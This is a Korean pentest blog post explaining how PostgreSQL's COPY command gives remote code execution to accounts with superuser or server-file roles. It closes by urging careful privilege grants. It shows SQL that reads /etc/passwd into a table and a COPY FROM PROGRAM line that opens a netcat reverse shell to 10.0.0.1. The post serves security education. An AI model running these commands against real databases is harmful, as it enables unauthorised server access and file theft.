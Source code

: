 ```yaml
---
title: postgresql with Command Execution
date: 2025-01-31
author: glasses96
categories: [pentest]
tags: [pentest]
pin: true
math: true
mermaid: true
---
```


> **postgresql 접근이 가능하면 RCE가 가능할 수도 있습니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is Postgresql
postgresql은 오픈소스 관계형 데이터베이스 관리 시스템(RDBMS)입니다.  
무료로 사용이 가능하며, 안정성과 확장성이 좋은 평가를 받고있다고 공식홈페이지에서 소개를 하고 있습니다.  

## How to Command Execution with postgresql
[COPY]("https://www.postgresql.org/docs/current/sql-copy.html") 기능을 사용하는 것입니다.  
아래의 권한을 부여 받았더라면 해당 권한을 이용하여 쿼리를 이용하여 서버에 파일을 읽거나 쓰기가 가능하며, 명령을 실행할 수 도 있습니다.  
postgresql은 설치 과정에서 `postgres` 라는 슈퍼유저 계정을 자동으로 생성하기 때문에 보안의 입장에서는 해당 계정에 대한 제어가 필요합니다.  

- superuser
- pg_read_server_files — 파일 읽기 허용
- pg_write_server_files — 파일에 쓰기 허용
- pg_execute_server_program — 운영 체제에서 직접 명령을 실행 가능

### COPY TO/FROM
해당 명령은 사용자가 운영 체제와 직접 상호 작용할 수 있도록 가능하여 공격자 입장에서 RCE 명령을 통해 DB계정으로 서버의 쉘 권한을 획득이 가능합니다.

예를 들어 서버의 passwd 파일을 읽고 싶다면 아래와 같은 명령어를 통해 파일 내용을 테이블에 추가할 수 있습니다.
1. CREATE TABLE read_files(output text);
2. COPY read_files FROM ('/etc/passwd');
3. SELECT * FROM read_files;

![DB](/assets/post/61/passwd.png)

### COPY TO/FROM PROGRAM to RCE
만약 아래와 같이 RCE 명령이 실행되면 postgres라는 권한의 쉘을 획득할 수 있습니다.  

1. CREATE TABLE shell(output text);
2. COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.0.0.1 1234 >/tmp/f';


## Reference
- https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767
- https://www.postgresql.org/docs/current/sql-copy.html

## 마무리하며
postgresql의 COPY라는 기능을 이용하여 Command Execution이 가능한 것을 알아보았습니다.  
이를 통해 DB의 권한을 잘 부여해서 사용해야한다는 점을 명심해야겠습니다. 